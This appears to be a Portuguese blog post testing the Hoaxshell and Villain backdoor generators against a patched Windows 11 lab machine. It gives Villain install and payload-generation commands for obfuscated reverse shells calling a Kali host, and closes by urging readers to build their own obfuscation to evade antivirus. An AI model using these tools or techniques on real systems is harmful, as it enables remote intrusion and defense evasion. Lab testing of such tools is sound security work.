No artigo anterior escrevi sobre um gerador de payload ofuscado para Windows chamado Hoaxshell, mas com as atualizações constantes do Windows as ferramentas maliciosas começam a ser bloqueadas. Neste artigo voltei a testar o Hoaxshell na versão atualizada do Windows 11, testei também o Villain e vou apresentar o resultado dos testes.

**Baixando Windows atualizado** Assim como no artigo anterior, foi utilizada a versão de developer disponibilizada pela Microsoft no site: [Maquinas virtuais Windows](<https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/>)



Utilizamos a OVA para Virtualbox, no site a Microsoft disponibiliza o Hash de cada arquivo zip para conferencia posterior.



Para verificar o hash do arquivo baixado pelo powershell, use o comando get-filehash 

Iniciando o Windows 11 Enterprise, Build 22000.co_release.210604-1628



Procurei utilizar a versão mais atualizada do sistema operacional, antes de iniciar os testes verificamos se existia alguma atualização pendente e deixamos o S.O com os últimos patches liberados.



Testando a comunicação da máquina Windows para máquina com Kali Linux temos comunicação normal como podemos ver no resultado do ipconfig.



Mas devido ao firewall do Windows 11 estar ativado não conseguimos comunicação da máquina Kali Linux com a máquina Windows 11.





## 1° Teste

No primeiro teste testamos uma carga de um payload gerado com Hoaxshell com firewall ativado.



Podemos ver que nessa versão do Windows 11 o código foi bloqueado pelo antivírus



## 2° Teste

Desativamos o firewall do Windows 11 e geramos novo payload no Linux.



Novamente o antivírus bloqueou a comunicação.



## 3° Teste

Para o terceiro teste usaremos o [Villain](<https://github.com/t3l3machus/Villain.git>), conforme descrito pelo altor o Villian é:

**“O Villain é um gerador de backdoor para Windows e Linux e um manipulador de várias sessões que permite aos usuários se conectarem a servidores irmãos (outras máquinas executando o Villain) e compartilharem suas sessões de backdoor, úteis para trabalhar em equipe. A ideia principal por trás das cargas geradas por essa ferramenta é herdada do HoaxShell . Pode-se dizer que o vilão é uma versão evoluída induzida por esteróides dele”**.

Para instalar o villain basta seguir as orientações do repositório:

git clone https://github.com/t3l3machus/Villain   
cd ./Villain   
pip3 install -r requirements.txt



## Gerando o Payload:

Para gerar o payload recomendo que leia o guia disponível em:

[Guia de uso Villain](<https://github.com/t3l3machus/Villain/blob/main/Usage_Guide.md>)

## Alguns exemplos:

### Para Windows:

Villain > generate os=windows lhost=eth0 obfuscate

Villain > generate os=windows lhost=192.168.12.36 exec_outfile=”C:\Users\$env:USERNAME.local\hack.ps1” encode

### Para Linux:

Villain > generate os=linux lhost=192.168.12.62



Colando o payload no powershell podemos verificar que a comunicação foi realizada com sucesso.



Para visualizar status da sessão digitamos **sessions**



Para abrir a sessão é necessário digitar o comando:

**Shell (id da sessão)**

shell e213e0da-601ea9d1-2d187bc1



Repetimos o mesmo processo com o firewall ativado.



Novamente tivemos sucesso na conexão utilizando o payload gerado com o villian.



### **Conclusão:**

Ferramentas como Hoaxshell e Villain usam técnicas de econdamento para ofuscar suas cargas, confundindo as proteções do sistema operacional, mas com a divulgação destas ferramentas a Microsoft e outros fornecedores geram atualizações buscando mitigar as vulnerabilidades. É importante entender como essas ferramentas funcionam para que você possa desenvolver suas próprias ferramentas de ofuscação fazendo assim que suas soluções fiquem funcionais por muito mais tempo.
